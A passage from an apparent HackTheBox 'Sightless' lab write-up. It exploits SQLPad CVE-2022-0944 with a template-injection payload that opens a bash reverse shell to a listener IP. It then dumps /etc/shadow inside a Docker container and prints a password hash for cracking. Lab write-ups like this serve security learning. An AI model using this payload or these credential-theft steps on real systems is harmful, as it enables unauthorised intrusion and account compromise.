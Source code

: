 ```bash
https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944
```

Payload:

```bash
{{process.mainModule.require('child_process').exec('/bin/bash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"')}}
```

![web_sqlpad_new_connection](GitHubv2/HackTheBox/EASY/Sightless/screenshots/web_sqlpad_new_connection.png)  

Open reverse shell listener:

```bash
nc -lnvp 443
```

On execution:
![nc_shell](GitHubv2/HackTheBox/EASY/Sightless/screenshots/nc_shell.png)  

We obtain a shell inside a **Docker container**.

---
## 4. Docker Enumeration

```bash
whoami
hostname
```

![docker_machine](GitHubv2/HackTheBox/EASY/Sightless/screenshots/docker_machine.png)  

The hostname confirms a Dockerized environment.  
Listing users shows limited accounts:

![docker_machine_permissions](GitHubv2/HackTheBox/EASY/Sightless/screenshots/docker_machine_permissions.png)  

Dumping `/etc/shadow`:

![docker_machine_etc_shadow](GitHubv2/HackTheBox/EASY/Sightless/screenshots/docker_machine_etc_shadow.png)  

We found password hashes for **michael** and **root**.  

Michael’s hash:

```bash
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/
```

Identify hash type:

![hash](GitHubv2/HackTheBox/EASY/Sightless/screenshots/hash.png)  

It is SHA-512 (`-m 1800`). Crack with Hashcat:
